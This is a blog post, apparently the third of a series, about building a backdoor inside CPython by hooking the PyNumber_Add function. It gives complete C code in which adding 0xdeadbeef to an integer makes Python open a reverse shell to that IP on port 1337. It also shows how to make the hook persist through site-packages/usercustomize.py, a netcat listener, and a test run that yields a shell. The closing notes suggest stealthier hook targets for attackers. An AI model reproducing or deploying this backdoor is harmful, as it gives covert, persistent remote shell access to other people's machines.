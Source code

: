 ```yaml
---
title: 'Sneaky Snek: Messing with Python''s Internal Functions (Part III)'
date: 2023-07-04 01:02:15
tags:
- python
- tech
- hacking
---
```


We're back with another part of the series!

In the [Previous Part](/2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/), we've hooked `PyNumber_Add` function using `ctypes` and replaced it with our own implementation.
In this part, we will extend our extension to a backdoor that will return a reverse shell given specific addition operands.

To the drawing board!

### The Plan
- Just like in the previous part, we will hook the `PyNumber_Add` function
- Our code will check if one of the operands is `0xdeadbeef`.
- If so, it will extract the other operand and use it as an IPv4 address
- It will then connect to the address on port 1337 and spawn a reverse shell

### Adding our trigger
In our previous implementation, after checking that both operands are integers, we added a check to see if they are both equal to `2`.
We will replace this check with a check to see if one of the operands is `0xdeadbeef`, and if so, we will extract the other operand and use it as an IPv4 address.
```C
unsigned int ipNum = 0;
char ip[16] = {0};

if (PyLong_Check(a) && PyLong_Check(b)) {
    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    }
    else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }

    // Addition implementation
    // ...
}
// ...
```

### IP Extraction and Reverse shell
Since we have access to the Python C API, we have the freedom to run any Python code we want!

We will use the `os`, `socket` and `subprocess` modules to spawn a reverse shell. To avoid string formatting in C, we will use `strcat` to concatenate the strings. The IP address is extracted one byte at a time, using bit shifting and masking with `0xff` to get the lowest byte each time.

The reverse shell itself is a Python one-liner that uses `os.dup2` to duplicate the socket file descriptor to the standard input, output and error, and then uses `subprocess.call` to spawn a shell.

```C
char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"";

// ...

if (ipNum != 0) {
    // Convert the IP address to a string
    snprintf(ip, sizeof(ip), "%d.%d.%d.%d", ipNum & 0xff, (ipNum >> 8) & 0xff, (ipNum >> 16) & 0xff, (ipNum >> 24) & 0xff);

    // Connect to the IP address on port 1337 and spawn a shell
    strcat(revShell, ip);
    strcat(revShell, "\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);");
    PyRun_SimpleString(revShell);
}
```

And violà! We now have a backdoor that will spawn a reverse shell when the operands are `0xdeadbeef` and an IPv4 address.

### Putting it all together
```C
#include <Python.h>

PyObject* my_add(PyObject* a, PyObject* b) {
    unsigned long ipNum = 0;
    char ip[16] = {0};
    char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('";

    // Increment the reference count of a and b
    Py_INCREF(a);
    Py_INCREF(b);

    // Check that a and b are both PyLongs
    if (!PyLong_Check(a) || !PyLong_Check(b)) {
        Py_DECREF(a);
        Py_DECREF(b);
        return Py_None;
    }

    // PyNumber_Subtract(a, b) is equivalent to a - b,
    // So we can calculate a + b by doing a - (-b).
    // We can get -b by multiplying b by -1.
    PyObject *minus_b = PyNumber_Multiply(b, PyLong_FromLong(-1));
    PyObject *result = PyNumber_Subtract(a, (PyObject*) minus_b);

    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    } else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }
    
    if (ipNum != 0) {
        snprintf(ip, sizeof(ip), "%lu.%lu.%lu.%lu", (ipNum >> 24) & 0xFF, (ipNum >> 16) & 0xFF, (ipNum >> 8) & 0xFF, ipNum & 0xFF);
        strcat(revShell, ip);
        strcat(revShell, "',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);");

        PyRun_SimpleString(revShell);
    }

    Py_DECREF(a);
    Py_DECREF(b);
    return result;
}
```

### Persistence
Python looks for a startup script in the `site-packages/usercustomize.py` file, so we can drop our script from the [Previous Part](/2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/) there and it will be loaded automatically. Don't forget to edit the Python script and change the path to `my_add.so` to the correct path on your machine.

```bash
# Compile our backdoor module
gcc -shared -o my_add.so -fPIC my_add.c $(python3-config --includes --ldflags)

# Find the user site-packages directory
python -c "import site; print(site.USER_SITE)"

# Edit the script and change the path to `my_add.so` to the full path of `site-packages/my_add.so` on your machine
vim snek.py

# Copy the our script to `site-packages/sitecustomize.py`
cp snek.py /home/user/.local/lib/python3.8/site-packages/usercustomize.py
```

Now, let's test our backdoor!

### Testing
We'll listen on port 1337 using `nc`.
```bash
➜  ~ nc -vvlp 1337
Listening on astral 1337
```

Now let's perform a simple calculation and see what happens.
```bash
➜  ~ python3
Address of my_add: 0x7face7051276
Address of PyNumber_Add: 0x50f750
mprotect(addr=0x50f000, size=0x1000, perms=0x7) ret=0 errno=0
Address of shellcode trampoline: 0x7face6f90390
memmove: 0x50f750
1 + 1 = 2
2 + 2 = 4
Python 3.8.10 (default, May 26 2023, 14:05:08)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 1 + 1
2
```

So far so good, but does our backdoor work? `0x7f000001` is hex for `127.0.0.1`, so let's try that!

```bash
>>> 0xdeadbeef + 0x7f000001
```

And we get a shell! Beautiful!
```bash
Connection received on localhost 34998
user@astral:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
user@astral:~$ 
```

### Notes and Caveats
This is a proof of concept, and is not meant to be used in production (whatever "production" means for a backdoor, lol).

Here are some of the things that could go wrong with this implementation:
- I'm pretty sure the current implementation breaks a lot of things, such as the `+` operator for other types, but I haven't tested it extensively
- Thread safety is not guaranteed
- The `mprotect` call won't work on platforms with `W^X` memory protection
- `mprotect` won't work on Windows
- The shellcode trampoline won't work on platforms other than x86_64
- The inline hook is implemented in a very naive way, and overwrites the original function code of `PyNumber_Add`. A better way to implement the inline hook would be to use a trampoline, and jump to the original function code after we're done. This requires us to allocate a page of executable memory, and copy the original function code there, and then jump to it
- Alternatively, we can use a hooking library such as [subhook](https://github.com/Zeex/subhook)
- The reverse shell doesn't fork a child process, so the Python process will get stuck until the reverse shell exits, and `stdin` / `stdout` / `stderr` won't get redirected back to the user

Improvements and features that can be added:
- We can use `mmap()` to get a page of executable memory and load shellcode from memory, instead of using `CDLL` to load a shared library from disk
- The backdoor components and it's communication are not encrypted or obfuscated in any way
- A Python shell would be nice, instead of relying on `/bin/bash`
- As an attacker, there are better hook targets than `PyNumber_Add`, such as `socket.recv()`, which is guaranteed to be called with user input in a lot of places
- Another option is string formatting functions, which are also used everywhere and likely to be called with user input (thanks to [@HarpazDor](https://twitter.com/HarpazDor) for the suggestion!)

This was a really fun way to spend a weekend!
I hope you enjoyed reading this series as much as I enjoyed writing it, and maybe even learned something new along the way.

Ciao for now!

